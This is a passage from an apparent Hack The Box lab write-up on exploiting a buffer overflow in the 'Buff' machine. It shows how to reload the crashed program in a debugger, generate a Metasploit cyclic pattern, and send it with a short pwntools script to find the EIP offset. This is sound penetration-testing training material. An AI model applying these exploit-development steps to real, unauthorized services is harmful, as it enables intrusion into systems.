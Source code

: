 Since the program has crashed I'll have to reload it, to do it I 
1. click on the restart button
2. click run button repeatedly until the program starts

![Desktop View](/img/htb/buff/buttons.png)

This process will have to be repeated through all the debugging since the program will be crashing many times due to the overflow, it will be referred as __reloading the program in the debugger__.

#### finding the exact length of buffer before EIP

To check what is the length of junk data to send before reaching the eip I send a specially crafted pattern created with the metasploit tool  pattern_create.rb, I save the pattern to a file and with a python script I make it read from the file and send the pattern.

```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 9999 > pattern
```

```python
from pwn import *

def exploit():
    
    with open('./pattern','r') as file:
        buffer=file.read()

    payload = buffer

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit() 
```

I check the registers and copy the value of EIP


![Desktop View](/img/htb/buff/registers_2.png)
